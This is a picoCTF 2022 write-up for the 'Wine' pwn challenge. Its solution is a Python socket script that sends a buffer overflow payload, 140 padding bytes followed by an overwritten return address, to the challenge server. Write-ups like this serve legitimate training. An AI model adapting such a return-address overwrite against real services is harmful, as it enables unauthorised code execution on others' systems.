 ```yaml
---
name: Wine (2022)
event: Pico CTF 2022
category: Pwn
description: Writeup for Wine (Pwn) - Pico CTF (2022) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Wine

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/dAsujQ_OPEk/0.jpg)](https://youtu.be/dAsujQ_OPEk?t=3713 "Pico CTF 2022: Wine")

## Description

> Challenge best paired with wine.

## Solution

```py
import socket

payload = b'A' * 140
payload += b'\x30\x15\x40'
print('payload = ' + str(payload))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect = s.connect(('saturn.picoctf.net', 62461))
print(s.recv(1024))
print(s.send(payload + b'\r\n'))
print(s.recv(1024))
s.close()
```
